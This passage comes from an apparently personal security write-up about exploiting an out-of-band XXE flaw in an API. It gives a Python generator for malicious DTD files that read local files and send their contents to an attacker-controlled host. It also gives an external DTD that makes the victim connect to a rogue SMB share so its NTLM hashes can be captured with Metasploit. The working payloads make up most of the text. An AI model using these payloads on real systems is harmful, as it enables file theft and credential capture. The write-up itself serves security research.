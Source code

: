 ```python
#!/usr/bin/python
import sys

i=0
with open('file.txt') as fp:
    
    line = fp.readline().strip().lower()
    while line:
        f = open("evil" + str(i) + ".dtd", "a")
        f.write("<!ENTITY % file SYSTEM \"file:///" + line + "\">\n")
        f.write("<!ENTITY % start \"<![CDATA[\">\n")
        f.write("<!ENTITY % end \"]]>\">\n")
        f.write("<!ENTITY % file \"<!ENTITY fileContents '%start;%file;%end;'>\">\n")
        f.write("<!ENTITY % eval \"<!ENTITY &#x25; exfiltrate SYSTEM 'http:/xx.xx.xx.xx/%file;'>\">\n")
        f.write("%eval;\n")
        f.write("%exfiltrate;\n")
        f.close()
        line = fp.readline().strip().lower()
        i+=1
```

This script basically creates as many DTD files as lines in the wordlist I used to fuzz xD. Now it is only neccesary to run a Burp Intruder with evil0.dtd to evil[number of words in the wordlist, in my case 389].dtd.

After some bruteforce time (the API takes its time to response...), I only got a couple more files but nothing interesting... :(
How could I escalate the vulnerability now? After some time reading, I found this gem: https://techblog.mediaservice.net/2018/02/from-xml-external-entity-to-ntlm-domain-hashes/

### [](#header-3)XXE to steal NTLM hash

My external DTD will look like this:

```xml
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file://xx.xx.xx.xx/blah;'>">
%eval;
%exfiltrate;
```
What does it do? It basically forces the victim to connect to a SMB share exposed. This requires however a very bad network configuration that allows outbound traffic to unauthenticated rogue SMB exposed shares (spoiler: this is the case lol):
Now I just need to host a SMB capture server using metasploit:

![](https://raw.githubusercontent.com/Spy0x7/Spy0x7.github.io/master/assets/2020-08-20-From-XXE-OOB-to-NTLM-thief/msfsmb.png)
